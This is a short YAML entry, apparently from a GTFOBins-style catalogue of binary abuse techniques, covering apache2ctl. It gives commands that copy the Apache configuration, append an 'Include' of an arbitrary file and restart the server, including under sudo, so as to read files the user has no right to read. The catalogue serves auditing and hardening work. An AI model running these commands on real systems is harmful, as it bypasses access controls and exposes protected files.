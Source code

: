 ```yaml
---
description: apache2ctl is a front end to the Apache HyperText Transfer Protocol (HTTP) server. It is designed to help the administrator control the functioning of the Apache apache2 daemon.
functions:
    file-read:
        - code: cp -r /etc/apache2/ /tmp/apache2
        - code: |
            LFILE=file_to_read
            echo "Include $LFILE" >> /tmp/apache2/apache2.conf
        - code: apache2ctl -d /tmp/apache2 -k restart
    sudo:
        - code: cp -r /etc/apache2/ /tmp/apache2
        - code: |
            LFILE=file_to_read
            echo "Include $LFILE" >> /tmp/apache2/apache2.conf
        - code: sudo apache2ctl -d /tmp/apache2 -k restart
---
```

